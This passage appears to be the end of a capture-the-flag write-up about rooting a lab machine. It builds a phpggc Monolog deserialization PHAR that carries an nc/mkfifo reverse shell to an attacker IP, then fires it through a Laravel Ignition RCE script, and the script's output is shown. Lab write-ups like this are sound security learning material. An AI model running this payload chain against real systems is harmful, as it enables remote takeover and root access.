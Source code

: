 > We got code execution!

So now we can use a reverse shell to gain root access:

```shell
php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 777 >/tmp/f'

python3 laravel-ignition-rce.py http://localhost:9000 /tmp/exploit.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !

[redacted]
```

![](Pasted%20image%2020241219111704.png)

==Machine pwned!==